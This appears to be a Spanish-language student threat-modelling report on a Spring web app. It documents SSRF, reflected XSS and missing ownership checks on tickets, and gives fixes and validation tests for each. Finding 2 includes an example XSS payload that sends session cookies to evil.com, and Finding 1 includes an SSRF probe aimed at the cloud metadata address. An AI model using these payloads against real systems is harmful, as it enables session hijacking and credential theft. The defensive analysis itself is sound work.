

# Avance U1
## Amenazas STRIDE
### Hallazgo 1
en PreviewController:
```
    public String preview(@RequestParam String url) throws Exception { 
        URI uri = URI.create(url);
        HttpRequest r = HttpRequest.newBuilder(uri).timeout(Duration.ofSeconds(3)).GET().build();
        return client.send(r, HttpResponse.BodyHandlers.ofString()).body();
    }
```
- Actor: Un usuario externo (no autenticado o autenticado pero sin permisos de acceso)
- Activo: Datos internos del servidor e información de la infraestructura.
- Vulnerabilidad: El endpoint recibe una URL controlada por el cliente y hace una petición HTTP sin validar la IP.
- Acción no permitida: Forzar al servidor a hacer peticiones HTTP hacia recursos internos o sensibles en su nombre.
- Consecuencia: El atacante puede leer credenciales de la infraestructura o acceder a información privada directamente en la respuesta del endpoint.
- Categoría STRIDE: Information Disclosure
- Amenaza redactada: Un atacante puede enviar como parámetro `url` una dirección interna o de metadata del proveedor de nube, 
y el servidor la solicitará y devolverá el contenido exponiendo información privada que no debería ser accesible desde fuera de
la red interna, aprovechando que `preview()` no valida el url que está recibiendo desde el payload.
- Control propuesto: Validar la URL con una whitelist de esquemas y de dominios permitidos y también resolver el DNS antes de conectar y rechazar la petición si la IP puede ocasionar problemas.
- Prueba que validaría el control: Un usuario solicita `preview` con `url=http://169.254.169.254/latest/meta-data/` (o `http://localhost/admin`); el sistema debe rechazar la petición con una excepción/error antes de intentar conectarse, sin llegar a hacer la llamada HTTP saliente.

### Hallazgo 2

en CommentController:
```
    public String preview(@RequestParam String text) {
        return "<article><h2>Vista previa</h2><p>" + text + "</p></article>";
    }
```
- Actor: Un usuario externo o atacante.
- Activo: La sesión y los datos del navegador de un usuario (cookies, tokens, acciones realizadas en su nombre dentro del sistema)
- Vulnerabilidad: El parámetro `text` se concatena directamente dentro del HTML de respuesta (`produces = TEXT_HTML_VALUE`) sin validarlo, permitiendo inyectar código HTML/JavaScript arbitrario.
- Acción no permitida: Ejecutar scripts en el navegador de cualquier usuario que cargue la vista previa con el payload.
- Consecuencia: Cualquier usuario puede robar cookies de sesión, realizar acciones en nombre de otro usuario, redirigirla a sitios maliciosos, o modificar el contenido visible de la página.
- Categoría STRIDE: Tampering
- Amenaza redactada: Cualquier usuario puede enviar como parámetro `text` un valor como `<script>document.location='https://evil.com/steal?c='+document.cookie</script>`, y el servidor lo insertará tal cual dentro del HTML de respuesta sin una validación, 
haciendo que el script se ejecute en el navegador de cualquier usuario que abra esa URL, aprovechando que `preview()` concatena `text` directamente en el `<p>` sin revisar o limpiar el texto recibido.
- Control propuesto: Escapar el contenido de `text` antes de insertarlo en el HTML (encoding de salida, ej. `HtmlUtils.htmlEscape(text)`) y además **quitar `'unsafe-inline'` de la CSP ya configurada** en `SecurityConfig` (`default-src 'self' 'unsafe-inline'`), ya que actualmente esa directiva permite que cualquier script inline se ejecute y anula la defensa en profundidad.
- Prueba que validaría el control: Un usuario solicita `preview` con `text=<script>alert(1)</script>` y la respuesta debe contener el texto escapado (`&lt;script&gt;alert(1)&lt;/script&gt;`) y no debe ejecutarse ningún script en el navegador.

### Hallazgo 3

en TicketController:
```
@GetMapping 
public List<Ticket> all(){ 
    return repo.findAll(); 
}
@GetMapping("/{id}") 
public Ticket one(@PathVariable Long id){ 
    return repo.findById(id).orElseThrow(); 
}
```
- Actor: Un usuario autenticado con cualquier rol sin relación con el ticket consultado.
- Activo: Los tickets de todos los usuarios, incluyendo el campo `privateNote`.
- Vulnerabilidad: Ningún endpoint filtra los resultados por el `owner` del ticket ni por el rol de quien consulta y el método `all()` devuelve  todos los tickets de la base de datos y `one(id)` devuelve cualquier ticket cuyo id se solicite, sin comprobar si pertenece al usuario autenticado.
- Acción no permitida: Leer tickets, incluyendo notas privadas, que pertenecen a otros usuarios sin autorización.
- Consecuencia: Un estudiante autenticado puede ver todos los tickets de otro estudiante, incluidas notas privadas.
- Categoría STRIDE: Elevation of Privilege
- Amenaza redactada: Un usuario autenticado con credenciales válidas puede llamar a `GET /api/tickets` para obtener el listado completo de tickets de todos los usuarios, o iterar `GET /api/tickets/{id}` con ids consecutivos, y en ambos casos recibir tickets incluyendo notas privadas de otros usuarios aprovechando que ninguno de los métodos validan el usuario y el dueño del ticket.
- Control propuesto: En `all()`, filtrar por el `owner` igual al usuario autenticado a menos que su rol sea SUPPORT/ADMIN. En `one(id)` verificar que `ticket.getOwner()` coincida con el usuario autenticado o que su rol tenga permiso explícito.
- Prueba que validaría el control: Un usuario autenticado como `rivera`, solicita `GET /api/tickets/{id}` de un ticket cuyo `owner` es `lopez`, el sistema debe responder 403/404 en vez de devolver el ticket. Autenticado como `rivera`, `GET /api/tickets` solo debe devolver tickets propios (o los que su rol autorice), pero no tickets de otros estudiantes.

## Diagrama del Sistema



### Justificación de controles
El sistema se organiza dentro de un enclave de referencia (Contenedor Docker en la zona confiable): todo acceso externo debe pasar obligatoriamente por uno de los tres controladores (CommentController, PreviewController, TicketController) antes de llegar a la base de datos H2, sin rutas alternativas de acceso a los datos.

1. PreviewController y TicketController exigen autenticación HTTP Basic en cada request, sin confiar en sesiones previas ni en la procedencia de la red. Sin embargo, CommentController no cuenta con autenticación `permitAll()`, lo que rompe el principio de Zero Trust en ese punto de entrada. Se propone extender la autenticación obligatoria también a la ruta `/api/comments/preview`.

2. Actualmente, TicketController devuelve todos los tickets a cualquier usuario autenticado (`findAll()` sin filtrar), sin distinguir entre alumno y agente/admin. Se propone agregar una segunda capa de control más allá de la autenticación: filtrado por `owner` a los alumnos, y verificación explícita de rol en backend para el acceso a la lista global. Evitando así depender de que el frontend oculte información que el backend igual entregaría.

3. PreviewController recibe una URL del usuario y hace una petición sin ninguna validación actualmente. Se propone agregar verificación de destino (bloqueo de IPs privadas, localhost y endpoints de metadata) antes de permitir la petición, evitando que el servidor pueda usarse como proxy hacia la red interna del enclave.

4. H2 corre en modo archivo (campuscare.mv.db persiste en disco) sin cifrado. Se propone habilitar el parámetro CIPHER de H2 para proteger los datos ante acceso directo al filesystem del contenedor.

Riesgos que permanecen abiertos incluso con los controles propuestos aplicados: El transporte es HTTP sin cifrar, por lo que las credenciales de Basic Auth viajan codificadas pero no cifradas por la red; y no habría autenticación mutua entre TicketController/JpaRepository y la base de datos dentro del mismo contenedor, dejando que ese tramo dependa únicamente del perímetro del enclave.

## Decisiones de diseño 

### Decisión 1 - Control de acceso a tickets
**Solución elegida:** mover la verificación de propiedad y rol al backend, dentro de `TicketController`. En `all()` filtrar por `owner == authentication.getName()` salvo que el rol sea `SUPPORT`/`ADMIN`, en `one(id)` rechazar con 403/404 si el `ticket.getOwner()` no coincide con el usuario autenticado. Cada request se valida por sí misma, sin asumir que el cliente ya filtró nada.

**Alternativa considerada:** ocultar el campo `privateNote` o filtrar los tickets solo del lado del frontend, dejando la API tal cual. Se descartó porque es un **diseño inseguro**, cualquiera puede llamar `GET /api/tickets/{id}` directo, sin pasar por el frontend, y seguiría recibiendo los datos completos. Confiar en que el cliente "no muestre" algo no es un control de seguridad.

**Riesgo que queda abierto:** aunque se filtre por owner, no hay registro de los intentos de acceso denegados, si alguien intenta iterar ids ajenos, el sistema lo bloquea pero nadie se entera que pasó. Tampoco se resuelve que las credenciales viajan por HTTP Basic sin TLS.

### Decisión 2 — Validación de destino en PreviewController (Defensa en profundidad)

**Solución elegida:** antes de conectar en `preview(url)`, revisar que la URL empiece con `http`/`https`, buscar a qué dirección apunta realmente y rechazarla si apunta a la propia máquina o a la red interna (por ejemplo `169.254.169.254`, que guarda datos sensibles del servidor). De ser posible, solo permitir una lista de dominios ya conocidos como seguros. Esto se suma a la autenticación que ya existe en el endpoint, si un control falla, el otro sigue protegiendo.

**Alternativa considerada:** bloquear solo una lista de direcciones "malas" conocidas, en vez de decidir qué sí está permitido. Se descartó por ser también un **diseño inseguro**, esa lista nunca cubre todo, y un dominio puede cambiar a qué dirección apunta justo después de pasar la validación, evadiéndola.

**Riesgo que queda abierto:** si el servidor sigue automáticamente un link que redirige a otro, alguien podría dar una URL que pasa la validación inicial pero termina llevando a una dirección interna prohibida. Falta revisar el destino de nuevo en cada salto de redirect.